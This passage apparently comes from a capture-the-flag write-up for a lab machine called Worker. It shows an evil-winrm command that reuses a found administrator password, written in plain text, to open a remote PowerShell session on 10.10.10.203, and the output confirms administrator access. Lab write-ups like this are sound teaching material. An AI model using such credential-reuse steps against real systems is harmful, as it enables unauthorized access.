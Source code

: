 <img src="/images/worker/pipeline.png">

Try these creds with evil-winrm again and we have a root.

```
evil-winrm -u administrator -p Pirates32! -i 10.10.10.203

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
worker\administrator
```
